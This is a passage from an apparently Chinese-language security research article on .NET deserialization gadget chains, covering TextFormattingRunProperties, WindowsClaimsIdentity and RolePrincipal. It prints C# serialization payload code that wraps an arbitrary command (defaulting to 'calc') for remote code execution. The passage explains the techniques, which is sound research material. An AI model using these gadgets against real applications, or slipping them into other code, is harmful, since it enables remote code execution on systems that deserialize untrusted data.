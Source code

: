 ```plain
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

#### WindowsClaimsIdentity+TextFormattingRunProperties

**思路**：原理一样，这个通过`_actor`字段，在反序列化构造函数中，会反序列化其`_actor`字段

限制：该类所在的命名空间不在GAC([Global Assembly Cache](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac))中，限制较大。

[![](assets/1701606816-9de946f24450ea240281c42c4f6eff7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105341-07c53668-792b-1.png)

payload:

```plain
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsClaimsIdentity));
            info.AddValue("_actor", B64Payload);
            info.AddValue("m_userToken", new IntPtr(0));
            info.AddValue("_label", null);
            info.AddValue("_nameClaimType", null);
            info.AddValue("_roleClaimType", null);
        }
```

#### RolePrincipal+TextFormattingRunProperties

**调用的类**：RolePrincipal（继承了ClaimsPrincipal类）+ClaimsPrincipal+TextFormattingRunProperties+ObjectDataProvider
